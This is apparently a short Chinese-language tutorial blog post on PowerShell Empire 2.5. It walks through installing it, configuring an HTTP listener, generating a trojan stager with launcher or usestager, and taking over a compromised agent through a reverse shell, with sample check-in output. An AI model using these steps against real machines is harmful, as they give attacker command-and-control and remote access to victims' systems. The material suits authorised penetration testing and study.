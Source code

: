 ```yaml
---
以前就听说过这个工具，是一个后渗透神器
---
```

# 简单介绍一个生成木马建立监听的过程
首先安装,我在用的是2.5版本的，大概在2.0之后的版本和之前的命令就不太一样了，现在网上很多教程都是1.x的就导致我学习的时候走了很多弯路
```
# kali clone项目到本地
git clone https://github.com/EmpireProject/Empire.git
# 安装
sudo ./Empire/setup/indtall.sh
# 可能要输入一个什么密码，直接回车就可以，全部执行完成后就算完成了，需要的话还可以把./Empire/empire添加到系统命令中
```

# 介绍 empire主要分为三个部分，
- module是一些payload，可以通过这个模块生成各种需要的后门之类的
- listeners监听器，几种类型
- agents管理一些反弹到的shell或者是代理之类的

# 简单使用过程
## 配置监听
```
# 查看帮助信息
help

# 进入监听模式，并查看当前的监听
listeners
# 此时提示符会加上listener字样 第一次会提示没有设置监听

# 配置一个监听
uselistener http 	# 使用http监听，还有很多其他形式的，
info			# 查看需要配置的信息，类似show options
set 			# set命令用来配置参数，格式set 选项 值,注意配置完成后并没有立即生效
execute			# 使set命令生效，同时启动监听器
back			# 退出监听配置

# 再次查看监听
listeners
# 配置监听要注意任何两个监听的Name和Port不能相同
kill +Name		# 删除监听
```
## 生成木马
注意要先建立监听才能继续生成木马，因为木马需要反弹shell的地址和端口
```
# 退回模式
listeners

# 可以使用launcher和usestager两种方法生成木马，launcher生成文本形式的，usestager生成文件形式的（暂时觉得是这样的，2019.5.3）

launcher +语言 +监听器Name
# 直接回显想要的代码

usestager +Empire stager
# 需要set设置监听器等相关的参数才可以继续
execute			# set生效，生成木马文件

# 到目标机器上执行生成的文件，或命令

```

# 结果
如果一切正常的话监听机有回显如下
```
[*] Sending POWERSHELL stager (stage 1) to 10.203.87.61
[*] New agent NCU84961 checked in
[+] Initial agent NCU84961 from 10.203.87.61 now active (Slack)
[*] Sending agent (stage 2) to NCU84961 at 10.203.87.61

# 会显示被攻击级器的IP

# 使用agents，查看代理或者目标
agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------
 NCU84961 ps 192.168.11.1    DESKTOP-S8B7MSP   DESKTOP-S8B7MSP\R-web   powershell         1968   5/0.0    2019-05-03 17:59:53

连接目标shell
interact NCU84961

```

---
这算是一个最简单的empire使用教程吧
---

# 相关链接
- [PowerShell Empire实战入门篇](http://www.52bug.cn/hkjs/4368.html) 这个是2.3版本的教程，算是一个比较新的入门教程吧
- [Empire 2.5：PowerShell渗透测试实战指南（上篇）](https://www.freebuf.com/articles/web/165925.html) 也是一个比较新的教程，而且涉及到了web界面配置，而且这人目前还没有下篇
- [后渗透测试神器Empire的详解](https://xz.aliyun.com/t/67) 一个比较老的教程，参考一下
- [windows后门种植方式收集](http://xnianq.cn/2018/07/23/windows%E5%90%8E%E9%97%A8%E7%A7%8D%E6%A4%8D%E6%96%B9%E5%BC%8F%E6%94%B6%E9%9B%86/) 写的挺好